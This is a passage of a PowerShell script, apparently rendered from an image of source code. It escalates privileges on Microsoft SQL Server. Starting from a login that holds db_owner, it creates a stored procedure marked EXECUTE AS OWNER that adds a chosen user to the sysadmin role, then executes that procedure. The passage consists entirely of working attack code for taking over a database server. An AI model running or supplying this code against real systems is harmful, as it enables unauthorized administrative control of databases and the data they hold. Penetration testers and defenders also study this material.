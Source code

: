             # Status user
            write-host "[*] $ConnectUser has db_owner role in $DbOwnerRoleCount of the databases." -foreground "green"
            write-host "[*] Attempting to$Message add $UsertoElevate to the sysadmin role via the $ElevateOnDb database..."      

            # Set authentication type and create connection string for the targeted database 
            if($SqlUser -and $SqlPass){   
               
                # SQL login
                $conn.Close()
                $conn.ConnectionString = "Server=$SqlServerInstance;Database=$ElevateOnDb;User ID=$SqlUser;Password=$SqlPass;"
                [string]$ConnectUser = $SqlUser
            }else{
              
                # Trusted connection
                $conn.Close()
                $conn.ConnectionString = "Server=$SqlServerInstance;Database=$ElevateOnDb;Integrated Security=SSPI;"
                $UserDomain = [Environment]::UserDomainName
                $Username =  [Environment]::UserName
                $ConnectUser = "$UserDomain\$Username"
           
            }

        # Create stored procedures to escalate privileges
            $conn.Open()
            $QueryElevate = "CREATE PROCEDURE sp_elevate_me
            WITH EXECUTE AS OWNER
            AS
            begin
            $AddUser
            EXEC sp_addsrvrolemember '$UsertoElevate','sysadmin'
            end"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close()         

        # Execute stored procedures to escalate privileges
            $conn.Open()
            $QueryElevate = "EXEC sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 
